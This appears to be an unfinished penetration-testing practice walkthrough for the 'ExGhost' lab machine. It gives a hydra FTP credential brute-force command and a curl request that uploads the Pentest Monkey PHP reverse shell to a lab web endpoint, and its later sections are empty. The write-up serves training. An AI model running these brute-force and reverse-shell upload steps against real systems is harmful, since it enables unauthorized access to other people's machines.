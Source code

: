 # ExGhost Walkthrough
Name: Exghost
Date:  04/09/2022
Difficulty:  Easy
Goals:  OSCP
Learnt: This wordlist for ftp default creds `/usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt`

Reupload after failure with markdown image sizing
`
## Recon

Thought my recon was good.. but ended up adding this to my hydra cheatsheet. Close the walkthrough because that seemed like a bit of a slap in the face.

```bash
hydra -L users.txt -P /usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt $ip ftp
```

![](ftpbrute.png)

Got the backup file, `file backup` outputs that it is a pcap filem open wireshark 
![](posttoexiftool.png)

Post the Pentest Monkey PHP reverse shell!

Work in progress

```bash
curl -X POST -F "type=file;name=php-reverse-shell.php;type=submit;type=Upload" 'http://192.168.226.183/exiftool.php' -F "file=@php-reverse-shell.php"
```

## Exploit

## Foothold

## PrivEsc

      

